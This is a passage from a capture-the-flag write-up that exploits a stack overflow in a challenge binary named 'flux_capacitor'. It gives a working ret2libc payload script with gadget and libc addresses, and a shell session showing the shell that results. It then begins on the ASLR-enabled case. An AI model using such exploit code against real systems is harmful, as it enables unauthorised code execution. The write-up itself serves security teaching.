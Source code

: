 The final Python script to generate an exploitation payload for non-ASLR case looks like so:

```python
import sys
import struct

read_buf_len = 0x100

offset = 40

libc_base = 0x7ffff7dcc000      # Base address of libc.so.6 (no ASLR)
pop_rdi = 0x400953              # POP RDI (in flux_capacitor)
nop_ret = 0x400954              # RET (in flux_capacitor)
bin_sh = libc_base + 0x196031   # /bin/sh in libc.so.6
system = libc_base + 0x4c330    # system() in libc.so.6

buf  = b'A' * offset 

buf += struct.pack('<Q', nop_ret)
buf += struct.pack('<Q', pop_rdi)
buf += struct.pack('<Q', bin_sh)
buf += struct.pack('<Q', system)

sys.stdout.buffer.write(buf)
```

We can easily use this, even without [Pwntools](https://docs.pwntools.com/en/stable/), to get a shell:

```bash
$ (python create_payload_no_aslr.py; cat) | ./flux_capacitor

Flux capacitor:
..

[*] Year: [1955]
[*] Plutonium is not available to everoyne.

[Doc] : We need to find a way to fill the Flux Capacitor with energy. Any ideas Marty?
[Marty]:
[Doc] : This will not work..

id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),115(scanner),138(wireshark),141(kaboxer)
pwd
/mnt/hgfs/CTF-oct-23/pwn_flux_capacitor
```

### Exploit with ASLR enabled

First we need to enable ASLR. We’ll use the same command as before, but this time with parameter value `2`.  This will randomise the address space, includiung the positions of the stack, *virtual dynamic shared object* (VDSO) page, shared memory regions and data segments as well. For most systems, this setting is the default and the most secure setting. As expected, the payload now crashes the application:
